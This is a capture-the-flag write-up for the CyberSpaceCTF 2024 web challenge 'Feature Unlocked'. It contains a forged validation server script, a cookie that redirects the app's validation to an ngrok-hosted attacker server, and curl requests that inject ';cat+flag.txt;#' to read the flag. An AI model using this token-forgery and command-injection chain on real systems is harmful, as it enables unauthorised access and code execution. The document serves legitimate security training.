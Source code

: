 ```yaml
---
layout: post
title:  "CyberSpaceCTF - 2024 - Feature Unlocked Writeup"
description: Solution for Feature Unlocked challenge
tags: [CSCTF, CTF, 2024, Web, Writeup, Red Team, Offensive, Challenge]
---
```


# Challenge Description
```
Name: Feature Unlocked
Point: 50
Solves: 184
Author: cryptocat
---
The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..

```

# Analysis
For this challenge, I thought it was an easy one until I read through the messy source code. The flag was hidden in the document root directory of this challenge, located at `/home/user/chroot/app`. <br>

We are provided with the following websites: <br>
The remaining time displayed at `/release` indicates the time left until *`the new feature`* is released: <br>

<kbd><img src="https://github.com/user-attachments/assets/7aedb7fd-e861-4cb6-9b22-069f268f15de"></kbd> <br>

The next one is `/feature` with a clickable link that would redirect us back to `/release`, let's find out what's happening behind the scenes!<br> 

<kbd><img src="https://github.com/user-attachments/assets/93517c66-ae5f-4003-a2ab-b8d63b174e21"></kbd>

# Source code analysis
Directory tree:
```bash
.
├── Dockerfile
├── flag.txt
├── nsjail.cfg
├── run.sh
└── src
    ├── app
    │   ├── __init__.py
    │   ├── main.py
    │   ├── static
    │   │   ├── css
    │   │   │   ├── animations.css
    │   │   │   └── styles.css
    │   │   └── images
    │   │       └── logo.png
    │   └── templates
    │       ├── base.html
    │       ├── feature.html
    │       ├── index.html
    │       └── release.html
    ├── requirements.txt
    ├── run.sh
    └── validation_server
        └── validation.py
```
At the top of `main.py`, we can see that server is using `URLSafeTimedSerializer` with a *random 16 bytes secret* for serialize and deserialize the `access_token`. `DEFAULT_PREFERENCES` cookie and `NEW_FEATURE_RELEASE` date: <br>
<kbd><img src="https://github.com/user-attachments/assets/391e7bec-ce68-406b-bf4b-42bd28901fb6"></kbd>


At `main.py`, we got `/release` which would first check if the `access_token` cookie is presented and then only redirect us if the data value is `access_granted`. <br>
Next, we have an optional GET parameter `debug`. When this value set to true, the system will accept the overidding of validation_server from the `preferences` cookie and perform server validation. If the validation is true, we then will be redirected to `/release` with dumped `access_token` assigned in response header: <br> 
<kbd><img src="https://github.com/user-attachments/assets/7cb4aa50-4132-472b-985a-93d45cdfc92a"></kbd> <br>

After delving into `validate_server`, I saw that it performs another validation through `validate_access()` and return the `date` later than `NEW_FEATURE_RELEASE` date:<br>
<kbd><img src="https://github.com/user-attachments/assets/2a7fb943-c982-4cdc-afb2-8c3c3f5b339a"></kbd> <br>

The `validate_access()` is the last step of validation but this time it just performs token verification using `signature` received from the `validation_server`'s response: <br>
<kbd><img src="https://github.com/user-attachments/assets/e2f61fdf-b933-46af-93a9-2bb5be578b98"></kbd> <br>

A potential OS Command injection found at `/feature` POST method if token deserialization data is `access_granted`, mean that we've got to get the `access_token` cookie to access this hidden feature: <br>
<kbd><img src="https://github.com/user-attachments/assets/7d2585dd-4dcd-48a0-bc69-ed6505adb56e"></kbd>

Then I came up with an idea: <br>
> "What if the `validation_server` value in the `preferences` cookie is the URL of our self-hosted malicious server?"

# Setting up malcious validation server
Using the `validation.py`, we can fully host a validation server with the `date` value adjusted to be later than `NEW_FEATURE_RELEASE`, and then sign the token with a `hash object` including our `date` value. Full python script shown below:<br>
```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 * 69) # Add more dates here
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8081)
```

Then setup a tunnel using ngrok: <br>
```bash
(monkeontheroof㉿kali)-[~]
└─$ ngrok http 8081
```

Base64 encode a new `preferences` cookie including our validation server:<br>
```bash
(monkeontheroof㉿kali)-[~]
└─$ echo '{"theme": "light", "language": "en", "validation_server": "YOUR_VALIDATION_SERVER_HERE"}' | base64 -w 0
```

Then send the GET request to `/release` with `debug` parameter set to `true`, also the modified `preferences` cookie including our malcious validation server: <br>
```bash
┌──(monkeontheroof㉿kali)-[~]
└─$ curl -s -I https://feature-unlocked-web-challs.csc.tf/release?debug=true -b 'preferences=YOUR_B64_TOKEN'

HTTP/2 200
date: Fri, 06 Sep 2024 17:23:14 GMT
content-type: text/html; charset=utf-8
set-cookie: access_token=ImFjY2Vzc19ncmFudGVkIg.Zts6gg.PLMJ0Id-S1aNwWIUea7HZ7povoM; Secure; HttpOnly; Path=/ # access token dumped
...
```

Took the `access_token` cookie and send a POST request to `/feature` with our payload for the exploitation of OS Command injection: <br>
`curl -X POST https://feature-unlocked-web-challs.csc.tf/feature -d "text=;cat+flag.txt;#" -b "access_token=ImFjY2Vzc19ncmFudGVkIg.Zts_cw.zHs2yfq0altGN1yBnRKLcUzK1S0"` <br>

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
